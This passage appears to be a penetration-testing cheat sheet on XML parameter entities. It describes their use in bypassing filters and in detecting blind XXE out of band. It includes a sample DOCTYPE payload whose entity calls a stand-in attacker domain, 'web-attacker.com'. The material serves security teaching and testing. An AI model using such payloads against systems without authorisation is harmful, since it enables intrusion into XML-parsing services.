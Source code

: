- Are **declared** using a `%` sign.
- Can **only be referenced within the DTD** (Document Type Definition).
- Are useful in **bypassing filters** that block `<!ENTITY ... SYSTEM ...>` in regular XML content.

---

### 📌 Declaration Syntax

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
````

---

### 📌 Usage

Instead of using `&name;` like regular entities, **parameter entities use** `%name;`:

```xml
%myparameterentity;
```

---

### 🔍 Blind XXE via OOB Detection Using Parameter Entities

If the server doesn't return XXE output in the HTTP response, you can still **detect blind XXE** by monitoring for **out-of-band (OOB)** DNS or HTTP interactions using Burp Collaborator or your own server.

---

### 💣 Sample Payload

```xml
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com">
  %xxe;
]>
```

* **Step 1**: Declares a **parameter entity** `%xxe` that fetches content from an attacker-controlled domain.
* **Step 2**: References the entity *inside the DTD*, which triggers a DNS/HTTP request.

✅ **If you observe a hit on your Burp Collaborator domain, the application is vulnerable to Blind XXE**.

---

### 🔐 When to Use

* The server blocks `file://` or regular `SYSTEM` entities.
* You receive no XML error output or leaked content.
* You suspect the XML parser resolves DTDs and external content.
